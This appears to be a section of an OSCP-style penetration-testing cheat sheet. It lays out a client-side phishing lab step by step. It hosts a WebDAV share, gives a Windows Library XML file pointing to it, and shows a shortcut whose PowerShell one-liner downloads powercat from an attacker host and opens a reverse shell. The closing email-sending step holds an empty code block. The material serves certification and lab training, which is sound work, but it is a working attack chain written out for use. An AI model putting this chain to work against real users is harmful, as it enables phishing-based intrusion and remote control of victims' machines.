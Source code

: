 # 07 - Client Side Attack

Index
- [Phishing Lab](#Phishing-Lab)
    - [Authenticated attack to mailserver](#Authenticated-attack-to-mailserver)

## Phishing Lab
### Authenticated attack to mailserver
Scenario:
 - WebDav resource with malicious shortcut file
 - Reverse Shell command for Windows
 - Valid user for send email

Create WebDav resource:
``` bash
mkdir ./webdav
/home/user/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ./webdav
```

Create a Windows Library File and put in webdav DocumentRoot:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<LibraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
	<name>@windows.storage.dll,-34582</name>
	<version>6</version>
	<isLibraryPinned>true</isLibraryPinned>
	<iconReference>imageres.dll,-1003</iconReference>
	<templateInfo>
		<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
	</templateInfo>
	<searchConnectorDescriptionList>
		<searchConnectorDescription>
			<isDefaultSaveLocation>true</isDefaultSaveLocation>
			<isSupported>false</isSupported>
			<simpleLocation>
				<url>http://$WEBDAV_SERVER</url>
			</simpleLocation>
		</searchConnectorDescription>
	</searchConnectorDescriptionList>
</libraryDescription>
```

Create a shortcut file (from Windows desktop), with a reverse shell command:
``` powershell
# reverse shell example, powercat based
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI:8888/powercat.ps1');powercat -c $KALI -p 1337 -e powershell"
```

![shortcut](https://github.com/roccosicilia/OSCP_cheatsheet/blob/main/assets/link-file-reverse-shell.png?raw=true "shortcut")

Send email via mail server:
``` bash

```